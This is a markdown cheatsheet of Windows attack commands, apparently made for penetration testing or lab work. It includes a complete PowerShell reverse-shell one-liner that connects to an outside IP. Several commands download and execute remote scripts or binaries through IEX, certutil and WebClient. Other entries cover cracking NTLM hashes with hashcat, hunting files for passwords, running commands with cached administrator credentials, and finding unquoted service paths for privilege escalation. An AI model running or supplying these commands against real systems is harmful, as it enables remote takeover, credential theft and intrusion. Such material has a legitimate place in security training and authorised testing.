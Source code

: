 # WINDOWS HACKING CHEATSHEET

#### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

#### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

#### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

### Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

### Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

### Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

### Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

### Cracking Windows Password Hash
```
**Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
**USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::
hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt
```

### Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

### Show Drives
`wmic logicaldisk get caption,Description,providername`

### Find specific directory
`dir <Folder Name> /AD /s`

### Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

### Search long output
`command |more`

### Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

### Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

### Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

### Show User Privlages
`whoami /priv`

### Show a Users Group
`whoami /groups`

### List users in a group
`net localgroup administrtor`

### Show info on specified user
`net user administrator`

### Show Routing table
`route print`
